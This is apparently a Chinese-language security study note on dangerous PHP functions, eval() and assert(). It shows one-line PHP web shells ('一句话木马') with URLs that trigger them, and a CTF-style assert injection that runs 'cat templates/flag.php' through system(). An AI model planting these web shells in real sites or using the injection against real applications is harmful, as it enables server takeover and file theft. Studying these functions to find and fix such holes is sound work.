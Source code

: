 ## 常用危险函数

### php代码执行相关

#### eval()

常见的一句话木马

```
<?php eval($_GET['pass']) ?>
```

```
http://xxx.xxx/xx.php?pass=phpinfo();
```

#### assert

assert会检查指定的assertion并在结果为false时采取适当的相应。如果assertion是字符串，它将会被assert当做php代码来执行

一句话木马

```php
<?php assert($_GET['pass']); ?>
```

```
http://xx.xx/xx.php?pass=phpinfo()
```

例子

```php
$file = "templates/".$page.".php";
assert("strpos('$file','..')===false") or die("Hacking")
```

构造

```php
assert("strpos('templates/'.system("cat templates/flag.php").'php','..')") === false
```

